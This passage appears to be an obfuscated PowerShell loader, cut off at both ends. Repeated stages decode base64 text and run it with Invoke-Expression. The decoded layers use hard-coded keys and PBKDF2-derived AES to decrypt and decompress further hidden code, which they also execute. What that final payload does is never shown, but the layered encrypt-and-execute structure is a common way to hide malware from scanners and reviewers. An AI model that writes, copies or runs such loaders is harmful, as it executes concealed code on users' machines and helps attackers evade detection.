QBHAGUARwB3AEUAOABtAHUASgBJAC8ANwB4AFkAcAB6AHQAQgB2AFIATABMAEMASABmAGMAOQBNAHoAawA1ADEAbgBKAGwAZwBuAEoAUABtACsAMABpAEgAOAB1AG0AUgBaAFcATABFAG0AYwBEADMAcABJADEAMAArAEwAeQBIAHcAcABBAEYANAAyAGwAYQBzAGEAbgBrAEgARwAyADUAVABkADEAcwBSAHQAcgB5AGcAYgBYAFAARwBlADEAQgB5AGwAawByAEoAbABxAGUAaABDAGoASABuADEALwBmAEoAWAByAGIAeQAyAFIAMgBzAGsAQQBOAGYAdwBWADgARQAxAHgAcgBIAEUAMgB3AFkAYQBWAEIAYwBvAG0AagB3AHgANQBjADkASwBYAGoAUgBPAG8AWAAxAEsAYwBZAGcANgBCAHIAbgBLAFMAVgA0AHIANAAzAGEAcgBaAFcALwAyAGcAcwBqAEcATgBXAFQAbABZAHUAdABjAE8AUAArAHgATABFAGIAdQB5ADEARQBpAHQAWAB3AEcAagBnAGMAVgBFAEQAVgBWAFgAVQB5AE4AZAAyADkAKwBmADYAcgBCACsAdQBuAHMAUQBoAGsAbgBkAEQAbQBnAFYAKwBDAEIAdABXAHAAcwBQAE8AUABGAG4AQwB4AE4AYgB6AFMAagBTAFAAVABvADcALwBjAFUAMQBNAFEAMgA3AGwAOQAwAFYAdwBjAGMAbAA0AC8ARABKAHYARQBKAEMAeQA4ADUAaAA1AHMAbgBMAGkAYgBqADAAVgBmAHAAaABoAHoANABGAFYANQBhAFIAZwBNADkANwBWAGIATwBXAG0AUwB5AG8AawBZAHMAOQA3AG4AdAAvAEIALwBpAFAAegBsAHIANgBUACsAWgBVAE0AZQBEAEwAdgBIAG0ATQBkAGEAcQByAEMAdAA1AEIAMQBzAG4AdgAyAFcANABtAFcAQQBJAGgARgBZAFMAYwBFAHYAegBjAFMAdgBJAHkAMABLAGQAQgAwAFgAVQBmAE8AQQA1AGEAdgBDAE8ANABEADAAYwBYAEcASAB3AEwAZgBFAEgAMgBJAHIASgBVAFMATQBtAG0ARwA4AEgAdABxADIAQQBBAEUAegBUACsAZQBaAEYAMgB1AE8ATABEAFkANAA0AEUANABEAGQAbQBZAFkAMQBZAG8ATwBtAGUAUwBwAGIAWABxAFoAbgBXAFkAdABtAGcAWgBhAFAAUwBEAEsASgB2AHAAbgBwAHIAaABKAFUAeQBWACsASwBUAFUARgBlAG4AdgBZAHEAMQBGAEEATgB0AHcAaABVAHoAaQBZADEAUQBMADEAdABKAGYAQgBCAGcAOABlAEEARABHAGYATQBRADQAUwBFAHAANgBvAGUAYwBCAFAAbQBTAHQAVgBrAHQAZQBYADYAcwBkAHMANwBqAFYATwBDAHkASQAzADQAMABPAHYAZwByAFAAVgB5AGEAQQA9AGgAZQA3ADEAYwB0AEsAbwBFAHQAeABWAEkAdABNAEkARgBOAHgAbwA4ADcATABUAG0AbAA4AFMANAB1AHIASQAiAAoAJABiAGEAcwBlADYANABFAG4AYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBTAHUAYgBzAHQAcgBpAG4AZwAoADMAMgAsACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBMAGUAbgBnAHQAaAAgAC0AIAA2ADQAKQAKACQAawBlAHkAMQAgAD0AIAAiAEgAVwBGAEkARwBYAHUARAB6AFkAZgBvADgAbwBLAHMAIgAKACQAawBlAHkAMgAgAD0AIAAiAFAAagA4AHEAQQBuAE8ATgAzAFAAQwBSAFQAeAB1AHEAIgAKACQAawBlAHkAMwAgAD0AIAAiADkAdQAzAFYAYwBmAG8AbABrAHMAMwB2AFAAWABWAHMAIgAKACQAZgB1AGwAbABLAGUAeQAgAD0AIAAkAGsAZQB5ADEAIAArACAAJABrAGUAeQAyACAAKwAgACQAawBlAHkAMwAKACQAcwBhAGwAdAAgAD0AIAAiAEYATwBPAGIAcABZAGoASABTAEQASgBJAFUAZQAzAEUAIgAKACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBSAGYAYwAyADgAOQA4AEQAZQByAGkAdgBlAEIAeQB0AGUAcwBdADoAOgBuAGUAdwAoACQAZgB1AGwAbABLAGUAeQAsACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBhAGwAdAApACwAIAAxADAAMAAwACkACgAkAGsAZQB5AEIAeQB0AGUAcwAgAD0AIAAkAGsAZQB5AEQAZQByAGkAdgBhAHQAaQBvAG4ALgBHAGUAdABCAHkAdABlAHMAKAAzADIAKQAKACQAaQB2ACAAPQAgACIAcwAxAGoAYwBrAFYAbgBJADgAQwB2AEMAWAAzAGgAVgAiAAoAJABpAHYAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGkAdgApAAoAaQBmACAAKAAkAGkAdgBCAHkAdABlAHMALgBMAGUAbgBnAHQAaAAgAC0AbAB0ACAAMQA2ACkAIAB7ACAAJABpAHYAQgB5AHQAZQBzACAAPQAgACQAaQB2AEIAeQB0AGUAcwAgACsAIABAACgAMAApACAAKgAgACgAMQA2ACAALQAgACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAIAB9ACAAZQBsAHMAZQBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBnAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzAFsAMAAuAC4AMQA1AF0AIAB9AAoAJABhAGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBdADoAOgBDAHIAZQBhAHQAZQAoACkACgAkAGEAZQBzAC4ASwBlAHkAIAA9ACAAJABrAGUAeQBCAHkAdABlAHMACgAkAGEAZQBzAC4ASQBWACAAPQAgACQAaQB2AEIAeQB0AGUAcwAKACQAZABlAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwAuAEMAcgBlAGEAdABlAEQAZQBjAHIAeQBwAHQAbwByACgAKQAKACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgApAAoAJABkAGUAYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAJABkAGUAYwByAHkAcAB0AG8AcgAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAsACAAMAAsACAAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoAJABtAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAoACwAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwApAAoAJABnAHoAaQBwAFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAWgBpAHAAUwB0AHIAZQBhAG0AKAAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACwAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApAAoAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoACQAZwB6AGkAcABTAHQAcgBlAGEAbQApAAoAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQAKAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAZABlAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuAA=="
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgB1ADYAMwBCADgATwBpAEwAOABxAHEAYgB0AGwAbgBWAGwAYQBxAHYAYwBrAHEAcgB6AEwAWQBLAFgAdgBJAFIAcwB0AHkAbQB2AG4AYQBxAG4AdwBsAHAAYwBqAGUAYgBZAHMATgBpADYAbABZAEEAbwBsAEMAcQBpAFMAWQBzAEQATABoADAASgBjAFAASgBaAEYAWQA2ADAAeQBQAEIAUgBSAFYAbQBFAEYAUABPAFMATwBDAFQAWQBPAGkAcQBkAC8AcwBVAHgAVwArAEIAbQA5AGIATgA2AFEAMQBDADMANQAzADUAZAA5AEUAQgAwAHkALwBRAGYARABCAGsAdgAwAHoAbgBRAGIANwBPADcAagBsAGQAWgBOAG8ANABUAGgAWQBJAEQAWgAyAGEAUgBmAFYASwB6ADUAVAAzAGMAMQAwAGsASQBrAFcAVQBQAEEAegBhADYAaQByADUAQQBSAGEANwB2AHkAaAB0AE4AYQBlAFQAbwBmADYASgBwAHMAKwBsAFgAbAAzADQAWgB1ADkAMABjAHYAeABDAEgATgBFADkASABsAEQAdgA5AE4AVQBiAFcAeAAwAFEAcwBoAHgAMQBVAEsAQgBIAEQAUQBEAHQAZwA5AE0AZwBJAEsAMQBlAHoAQQBuAEgAaQB6AC8AdAB4AHMAUgBFAEIAUQBZAEQAcgBwAHMAbwBSAGcAagBoAEQAUQAxAG8AdgB3AGgAMwBhADUALwBuAHEAVgBlAEMAaABuAEoARwBEAHUAeQBOAEoAdAAxAHYAdgA3AFQATQB4AHQAdwBZAFAAeQBHAGQAOABzAG4AcABPAEwAZwBzAFoAbgBhAGoAWgBDAFQATwBBAC8AUQBNAFAAbwBRADkASwBCAGMAZgBIADEARAB5AEoAVABKAFcAOABJAEwAYwA1AFAANQBGAHQAWgBQAHQASgBSAE8AOQBrADUAQgBiAEoAdQAzAFAAOQAvADIAdwB1AGQAbwB2AGkAdABJAFcAWQBBAFoAbwA5AEwAUQBWAFIATwBXADUATABNAEkAUgArAHcAdABpAHMAegBIAHUAegAxAGYAYwBIAE0AdgBiAEcAKwArAGcAQQBCAHcAcAAwAE8AQQB0AFkAcQBiADUAMABJADMANQBvADUATgBxADkAcABTAEwAbgBhAFQAVwBPAFoAWgBhAFYASgBBAEQANwBMADgAQwBYADIAOQA3AHcAUAA2AFcASwBBADQALwA4AFQAYgB4AEcAKwA2AGIAUABGAG8AbQBGAEgAbwAvAG4AWQBrAEwAcQB4AEwAMgBWAFEAKwBFAEcATwA5AFEAMABTAE8AbgBNAEIAbAB3ADkAeQBKADQANABZAEIASAArAHcAbgBKAHcAcQB5AHQAVgBCAC8AaQBlAFIAbABqAFYAUwAvAFUAZABPAGwAQgB0AEQAZwBzAGsAaABHAEMAcgBOAGIAZwByAEYATgBDAHgAKwBkAHAAVABFAEwAdQBYAEwAOAA1AE0AYQBHADIAcwBVAEMASwBuAG4AOQBXAGUAdwAxAG0AagBUAFgAdQBpAEIAOABUAG8AUwByAGkANwBJAFUAVgBrAEUAcgBGAFoAbAA1AHEAYQBqAHQAcAA5AEQAYQBGAFAAQwArAE4ASABSAEIAVwBFAEgAbQB1AHUASQBMADYAUgBHAGQAbQBRAFUATgAzAHoAMgBVAGQAZQBmADEAZQBLAE8ARQBJAHgATABJAEcAegA2AEYAOABrAFoAcQBiAFQARwBuAGcAQQBrAHQASQBGAGQASQBOAHMAegAvAFYARQAyAHMAcwA1AFkANgB0AGEAeQBhAEgATAAxAGcAYwByAGMAZwBIAGwAeAAvAGQAaQBJAEQAdwBlAHEAbwBWAHAANQBIAG4AYgA0ADgARwBLAGYAdwBoAGIARwBuAG0AMgBRAGIAYwBhAGkAMgBiAGsAYgBsAG0AUQAyAEsAVAB2AEIARgBpAGIAWQA3AGIAZQBuAHIAcgBtADUARwBHAFYAKwBKAFUAbQBkADIAdQB4ADcAVgA2AHYASwBPAFkAaQBUAFYAWABpAGMARwBYAEoATQBQAFMAZQBTAEsAeABmAC8AUAA4AFQAdABtAFUAMwBqADUAYwB2AEEAcgA0AHgAMABlAHAASQA4AGoAeQBMADIAZwAvAGsAcABLAGYANwBSAFUANQArAHAAKwBmADMANwB4ADkAeQBEAFEASwBCAEgAWgA1ADIAegBaAGMAYgBvAHkAagBUAG0AdwBBAFIAZQBTAGwAYgBIADAAawBVAHQAawAvAGsATgBuAGgAbgA0ADAAcQA4ADkAYQBtAGQAZwBXAFcAWQBrAGUAOAAwAE0AcQA4AFMASABXAGQAdgByAE0AegBCAFgAQgA4AE8ARgByADQAMQA2AFIATQByAEkATwBGAFcAaQBTAFEAcwBnADEAZQByAFAARgBuAE4ANwB2ADkAQgBuAGcAdQBGAEUASQB0ADcAcQBRAHQAegBzADEAVAB5AFIAdQBkAFYAeQBJAHEAbgBKAFMAUgBBAGoAOABnADIAVgBFAFgAZwA4AGMAdQBXAHQAagAzAGkANABBAHcANABwAE0AdQBDAG0ATQBwAGUAZQBDAEcAMwBBAEsARwBZAFkAeQB4ACsAYgBtAHcAWAB1ADgAWQBqAFMASQBxAHMAWAArAHgAbgBIAHEAcQBmAFMAMgA1ACsAeQBoADkAeAB5AHUAQQBNAHgAegBnAHkAOAA4AEYAZgBYAFQAdgA3ADAAQwBQAFgAVgBhAGwAcABtAGwAbABVAE0AdQB4AGMAZQBVAFMAegA1AHIAeQB6AHAASAB4AFoAOQByAFEASwBDADkAZgAvACsAMQA4AGYAbgBSADgAZABuAEwAVQBQAFgAbgB4AFAAeABoAGgAVwBSAEwASwBBAHMAZgAzAHIAbwBXAE4AWABUAEEAbABJAEYAYwBtADMAeAAvADgAWQBMAG0AOQArADUASgBLAEkASgBoAE4ASgBMADYAQQB4AHEAZQBBAHYANQA3AE4ARABJADAATgBlAE4AVwB1AEQAVwBXAE4AdABaAEoAZQA4AFcAMABSAEoAWgBBAE4ASABTAEoAYQBkAEMAeAB6AGsAaQBvAFIAaQB3ACsASABEAFIAcQBKAFAAbQBjAEcAMgA1ACsAYQBPADUAYgBHAHcAUgBLAG8AeABDAC8AUgBGAGIASABEAHcAYwA3AHQASAB6AE8AeAA2AHIATAB1AEEAbABRAEIAUwByAG4AVQBVAE8ARgBmAGMAVABuAGsAagBaAFoASwAvADMAQwBQAHcAMQBCAG4AVgB5AFMAQQBUAFcARwB0AGwASgBsAGMAMQBaAEIAVwBOAEYAVwBQAGgAZwB5AG0AUgByAGYAWQBEADIAVwAwADcAZgB2AG4ASgBBAGQAVQBkADIAQwA1AFYAbAArAC8AaAAyAE4AegByAE8AUQB6AFkAQgA5AFoAKwA4AFQAdQBYADMASwAwAFEAVgBEAGIAcgA1AEcAVgBUAFoARwBnAEMAcQAwAHUAMwBQADAAcgBjAEQAeQBqAG0ATAA1AFMAUABhAE4AUwBDADMAUAB1AGgAaAB2AGYARABZAHIARwBhADEAdwB3AHEAVwAvAFgAYgBkAHUATwBHAEoAMgBtAE8AcgA5AEMAVwB0ADAASQBVAEUAdABkAHoAWQB6AGwALwBzAEYAMgBSAE4AbgAwAG8AZABrAEcAZwB0AEUAdgAzAEQAMgBGAHMAZABNAEMAUwBGAG8AdgBNAFEAUABYADUANABPAGYAQwBUAHEANABJAFcATQByADMAUgBRAGYAZQB3ADUAZAB0AFoAUABMAE0AWgBIAHUAYQBkAFUAbgBrAHkAVQBDAFUAcgBMADEARQBrADkAaQBPAHAARQBRAGwAbABGAFMASgBwAFMAbAAzADkAbAA4ADUARABzAHMAYgBuADgAOABzAEkAbgBEAEUAZgBqAG8AVQBDAEYAdwA2AHAAZgBrAHQAYwBCAEIAaQBLAFUAQgBoADUAMwBRAGIAZABYADcAVQB4AE0AZgBoAEkASABqACsAMQBJAG0AZwBGAGMAcgBkAGMAVwBvADQANwBsAFoAVQBMADMAWgB4AE4AQwBtAEgAbgArAG0ARQBjADYAQgAvADgANgBMAE0AMwBoAHgAKwBlAFYAdABrADYAaABrAFIANQBXAGoATABWAEMANABsAFgAagBkAHkANgBwAEkAaABPACsAVwBNAEgAWQBGADYASQBhAGIAWABpAFoAVgBNAE0AdQBqAEQAUgBuAEYAaABlAGoAMABqAGsAeQAxAGsAcABSAHkASgBWAHMANgB3ADEASABUAEIAOAArAFYAQwBoAFYAawBmADEAYgBuAEwATwAwADAAVgBwAHcAbAB3AHkAeQAyADUAdwBnAHQAdgBXACsAbgA0ADUAUABzAFQAaABPADkATQBPAEsAVQBIAG0AUwBUAEcAMABVAHMAKwBIAE8ANABLAG4AYQB6AHkAZQBaAGUAZwBTAHMATgBKAEUAeQBEAEQANgAyAFQAbQAxAEsASwBoAG0AMgBuAHYASwBlAGoAagBNAFkAUAAzAHoAQwA0AE4AUAByADIAUwArAHMAUgBSAEUAcQBLAHQAVAAxAEgARABVAHgAUwAyAG8AYgBtADcAMgBVADEAYQBwAEUAMABYAG0ASABBAFcAdwA9AD0AWQBOAGwAaQBPAHcAVgBIAEoAZABOAEcAeQBRAEIANwA4AEEAdwBBAE8ARwBVAG4AVgBNAFkAbgBEAE0AawB6ACIACgAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAFMAdQBiAHMAdAByAGkAbgBnACgAMwAyACwAIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAEwAZQBuAGcAdABoACAALQAgADYANAApAAoAJABrAGUAeQAxACAAPQAgACIAcABxAHEAVgBHAFQAbgBRAGoAQQBWAHoAZwAyAGEAbAAiAAoAJABrAGUAeQAyACAAPQAgACIAWgBEADEAMABvADYAWQBxAHAAbgBlAHoATgBYADQAOAAiAAoAJABrAGUAeQAzACAAPQAgACIANQBoAGcANQBVAGIARAA3AFEAeQByAEcAagBvAEYAagAiAAoAJABmAHUAbABsAEsAZQB5ACAAPQAgACQAawBlAHkAMQAgACsAIAAkAGsAZQB5ADIAIAArACAAJABrAGUAeQAzAAoAJABzAGEAbAB0ACAAPQAgACIARQA3ADIAdgByAG8AOQBTAE0AagB3AEgAagBSAEQAVwAiAAoAJABrAGUAeQBEAGUAcgBpAHYAYQB0AGkAbwBuACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFIAZgBjADIAOAA5ADgARABlAHIAaQB2AGUAQgB5AHQAZQBzAF0AOgA6AG4AZQB3ACgAJABmAHUAbABsAEsAZQB5ACwAIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGEAbAB0ACkALAAgADEAMAAwADAAKQAKACQAawBlAHkAQgB5AHQAZQBzACAAPQAgACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAuAEcAZQB0AEIAeQB0AGUAcwAoADMAMgApAAoAJABpAHYAIAA9ACAAIgBRAG8ANQAzAFAAOQBEAGgAWgBZAFIAWABVAGcAVgBGACIACgAkAGkAdgBCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAaQB2ACkACgBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBsAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzACAAKwAgAEAAKAAwACkAIAAqACAAKAAxADYAIAAtACAAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAgAH0AIABlAGwAcwBlAGkAZgAgACgAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAIAAtAGcAdAAgADEANgApACAAewAgACQAaQB2AEIAeQB0AGUAcwAgAD0AIAAkAGkAdgBCAHkAdABlAHMAWwAwAC4ALgAxADUAXQAgAH0ACgAkAGEAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEEAZQBzAF0AOgA6AEMAcgBlAGEAdABlACgAKQAKACQAYQBlAHMALgBLAGUAeQAgAD0AIAAkAGsAZQB5AEIAeQB0AGUAcwAKACQAYQBlAHMALgBJAFYAIAA9ACAAJABpAHYAQgB5AHQAZQBzAAoAJABkAGUAYwByAHkAcAB0AG8AcgAgAD0AIAAkAGEAZQBzAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApAAoAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgBhAHMAZQA2ADQARQBuAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAgAD0AIAAkAGQAZQBjAHIAeQBwAHQAbwByAC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACwAIAAwACwAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALAAgACQAZABlAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACkACgAkAGcAegBpAHAAUwB0AHIAZQBhAG0AIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwBaAGkAcABTAHQAcgBlAGEAbQAoACQAbQBlAG0AbwByAHkAUwB0AHIAZQBhAG0ALAAgAFsAUwB5AHMAdABlAG0ALgBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkACgAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgAJABnAHoAaQBwAFMAdAByAGUAYQBtACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAAoASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4A"
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgB5AEsARgBVAGcAcQBEAHEAeAA2AHEAZgBPAEEAdQBYADAATwBlAG0AegBTAFQAMwAwAFMAawBRAEsAdgB6ADAASgBTAGwAdABkAG4AaQBiAGsAMABhAGkAQgBnAFUAQwB6ADIARwBFAGUAZQBDAEQAOABPAEgAYQAvAEYAZABIAEYAUQB2AEUASAAzAFoAZAArAEQAVgBtADQANABKAGsAYgB2AEMAMgB4AEsAbQBmAGMAUwBrAHkAUgBXAHIAUwBuAHYAZwByAGMARwBwAHYAcgBPAG4AZwBEADUAdwBvAHMAQQAzAFMASQBRAEUAMAA5AGEAeQBhAGMALwB5AGQATABOACsAMQBjAEkAOQA1AFAAegBhAGYAeQBHAEUAMAA3AFUAQwA1AEkAdQBtAGcAcQB1AG4ARQBzAE8AcwBNAGEAUQBBAE4AVgBFADYATgAyAEIAagBWAGMAQgBRAGEATQAvAHIANQBpAHIAaQB1AEcAcQBwAHoAMwBoADMAVgBSAFkAbQAwAFMASgBUAG0AUQBEAHUAMQBxAHcAUQA5AEQAYwBSAFUAYgBkAE0AdwBQAEgAdQBWAEQAUgBTAC8AVwBEAFIAQwBqAHIANQA5ADMAWQBlAEMALwBpAGoAegBjAEwAYQBZAEMAOQBYAGQAUwBFADcANQBoAGUASABhAEMASwBOAFAAZgBLADcAVABBAEUAeABtAGcAYwBnAHIAQgArAHkATwBCAHgAOQBvAGwAVgBDAFMAUQBXADAARABvAHEATABsADEAbwBHAG4AeQBmAEsAYgA0AEIAeQB1AFQAVgA4AEYAbAB4AHUAYQB0AFIANQAzAEQAcQBsAHIANwBNAEEATQBOAFAANgBvAHoAaQBnAFIATQBPADQATgAyAE8ANQBDADMAVgB5AFUAKwBTADEASgBFAFEAbQBLAG0AWQBpAHYAagB0AGgAcQBpAE8AZAA5AHMALwB6AEsARgA1AEEAegB3AGwASgBOAEIAMABlAHkAaQB0ADQAVgBUAHcASABFAFUAUABQAHgAQgB0AGgAZABqADUATgBSAGMATAAvADgASwBzAEsAMgBnADAAbABsAHEAawBkAHUAZwBrAEwANQBjAFgAdQBOADUAbgBqAEQAQQBPAG8AcQBlAGsAagBJAGMAMgA4AFgAcQAxAEsAegAyADcAOQAvAHEAOABYADQAeABKADEAOQBsAE0AWgBrAGoAbQBlAEEAYgBzAGkAaABJAHMAbABEAG0AOABtAFkAQgBTADkAMgBoAC8AWABxAHUAagB1AGUANwBTAFYAbgBqAHgAQgAvAEEAdABJAE0AUQBzAEYAUwBYAEcASQArADYAegB0AEoASQB4ADcAOABOAHMAUAA4AEwAUABQAFQAZgA3AEsAZgA5AEYARwBmAEcASwA1AGwAVABDAEYASwBGAEwAUAB1AG0AUABhAHQAagAvAEMAQQAzAEcAVwBrAHIAMwBnAHoATgBTAFUAUwB1AHgARQArAFcASQBkAHYAaQBBAGcAMQBXAHgAagBpAGsAUQB1AHoAZwB1AFcAagBTAEcAQQBqAGUAOABBAHQAVQBjAGQAaAByAE8AcQBwAHcASAArACsAWABuAGcAUgBEAG8ARgBqAGsARABmAGoAYgBUAHQAMwBDAGwAcwBMAEcAWgBnADMATwA5AGUATgAwAHcAUgBSAHMASQBOADMAUQBjAEgAdgA2AEoAMAByAGEAdAArADgASQBDAHEAdABSAGgAbAB2AFUAaQB4AEsAawBtAHEAYwB2ADEAdQByAFEASQAzADEAUwBRAEcANwBlAFUASgBPAEMASABhAGkAaABqAG4AeAAvAEUANQBFADMAagAyAE8AVgBUAHgAZQAyAGkAcgBZAFUAawBtAEoAcwBDAG8AbgBQADIAZwBaAG0AZQBuAHUASQBwAFAAaQBWAEkAawAzAGEANQBmAE8AMgBMAEMAKwBBAHoAZABPAFIAeABWAFEAbgBUAG4AVgBPADEAbgBaAFQAUABjADEALwBvAHIAKwAyADYAWABTAHkAMgBlAGMAbgBkAFIAKwBRADUAOQBDAGIAagBCAHMAaAA3AGsAVABOAFYAcABYAE4AawBoAFkAbwAwAEcASgBOAFEATAArAC8AYQB3ADMAaABBAFcAUgBrAFoASwAxAC8AMABYAFMAVABBAHgARQBwAEkAagBkAGEATABDAHcARgBKAE0AagBhADQAWAB5ACsAWQBkAFoAYgByAEMARgBSAEEAZgBxAFUAMQBBAFgAZQBMAGwAWQBxAEgAWABCAGoAQwBKAFEAaQBPAHMAegA4AGsAeQBPAGcAOABIAEEAbgB0ADUAMABzADgARQBkAGMAVgBnAE8AWgArAFMAVQBsAFkANABkADUAeABpADcAQwBhAEQAcwBYAEQANgBIAEIATgBnAGcASgBlAHMAagB6AFAANgBLADkAYgBaAGIAcgA0AGEASABnAFgARQBhAGYAOAB4ACsAbgBCAGMAagBjAFoATwA4ADAAbQBzAFIAagBBAHEATABPAHgAMAA4AG4AagBlAG8AMABLAHcATQBJACsARwA4AFUATQBsAFEAWQBrAE4ATwBXAFAAZAB2AFUAUgBnAG8AcABlAHkAYgA5ADIASwA